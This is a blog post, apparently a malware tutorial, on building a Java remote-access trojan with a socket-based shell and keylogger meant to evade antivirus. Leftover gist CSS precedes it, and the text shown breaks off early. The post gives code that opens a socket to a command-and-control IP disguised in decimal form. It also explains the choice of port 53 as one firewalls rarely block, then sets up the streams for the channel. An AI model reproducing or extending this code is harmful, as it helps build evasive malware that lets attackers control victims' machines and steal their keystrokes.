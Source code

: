     background: rgba(64, 0, 0, .5);
}
body .gist .pl-mdh,
body .gist .pl-mdi {
    color: #a6e22e;
    font-weight: 400;
}
body .gist .pl-ib,
body .gist .pl-id,
body .gist .pl-ii,
body .gist .pl-iu {
    background: #a6e22e;
    color: #272822;
}

</style>   

<i>**31 August, 2020** — [Go back to homepage](../)</i>
# Evading AV with Network Sockets / Shell & Keylogger

RAT trojans typically use WinAPI functions for injecting malicious shellcode in memory (RAM) which is then executed. While there are numerous methods of evading anti-malware or EDR solutions for such RATs that reside in disk using techniques such as partial code encryption, they can still be caught during runtime as a result of vendors using behaviour analysis through machine learning for exploit prevention. Such controlls are difficult to bypass, however, instead of leveraging WinAPI calls this time, sometimes simplicity is key.

A network socket is an endpoint of a two-way communication (TCP or UDP), identified by an IP address and a port number, which is used to send or receive data within a node on a computer network (could be LAN, WAN). They have a wide range of use cases, usually in a client-server architecture such as basic chat applications. A lot of programming languages implement libraries for programming sockets, and in this case, I will be using Java considering that it can be complied to bytecode in almost all operating systems which have JVM. Furthermore, its compile logic makes most of the Java applications seem legitimate, such as our case in programming a RAT trojan with a simple keylogging capability.

Unfortunately, in comparison with Python, Java requires more lines of code for using sockets. For demonstration purposes, I will be using one of my VPS servers as the listener IP address of `185.141.61.227`, which can be written in decimal format as `"3113041379"` thanks to [IP-Obfuscator.py](https://github.com/C-REMO/Obscure-IP-Obfuscator):

{% highlight java %}
Socket s = new Socket("3113041379", 53);
{% endhighlight %}

This will initiate a communication channel with the CNC server, so you need a listener program such as netcat (for the sake of demonstration) operating in port 53 – a common port found in malware as it is mainly allowed in firewalls and typically not scrutinized enough from a security perspective. Sockets in Java also require input and output streams for basic I/O operations, as well as `PrintWriter()` and `BufferedReader()` to properly write outward data.

{% highlight java %}
InputStream i = s.getInputStream();
OutputStream o = s.getOutputStream();
PrintWriter pw = new PrintWriter(o, true);
BufferedReader rr = new BufferedReader(new InputStreamReader(i));
{% endhighlight %}
